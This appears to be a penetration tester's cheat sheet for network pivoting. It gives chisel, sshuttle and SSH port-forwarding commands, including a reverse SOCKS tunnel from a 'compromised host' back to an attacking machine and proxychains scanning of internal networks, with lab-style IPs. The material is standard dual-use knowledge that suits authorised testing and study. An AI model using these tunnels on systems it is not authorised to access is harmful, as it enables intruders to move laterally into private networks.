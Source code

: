 # Chisel

## Install

```bash
# Clone Repository
git clone 'https://github.com/jpillora/chisel.git'

# Build Binary
go build

# Binary is now built and ready to be transfered over to target system.
```

## Reverse SOCKS Proxy

```bash
# Attacking Machine
./chisel server -p <Port> --reverse &
./chisel server -p 1337 --reverse &

# On Target Machine
./chisel client <Attacking-IP>:<Port> R:socks &
./chisel client 10.50.46.8:1337 R:socks &

# Then use Proxychains to scan internal networks from the compromised host.
```

# Shuttle

```bash
# Authenticate with password
sshuttle -r <User>@<Target-IP> <Target-Subnet> -x <Target-IP>
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5

# Authenticate with key.
sshuttle -r <User>@<IP> --ssh-cmd "<Command>" <Target Subnet> -x <Exclude IP>
sshuttle -r root@10.200.48.200 --ssh-cmd "ssh -i id_rsa" 10.200.48.0/24 -x 10.200.48.200
```

# SSH

```bash
# Forward RDP from internal host to Attacking Machine on port 1337.
ssh -L <LocalHost>:<Port>:<IP-To-Forward-From>:<Port> <User>@<IP>
ssh -L 127.0.0.1:1337:10.200.48.150:3389 root@10.200.48.200 -i id_rsa

# Forward remote port 80 to local port 80.
ssh atena@10.10.72.69 -L 80:127.0.0.1:80
ssh <User>@<IP> -L <Local-Port>127.0.0.1<Remote-Port>

# Dynamic SSH Port Forwarding
ssh -i <id_rsa> <User>@<IP> -D <Proxychains-Port>
ssh -i id_rsa errorcauser@10.10.254.201 -D 1080
```
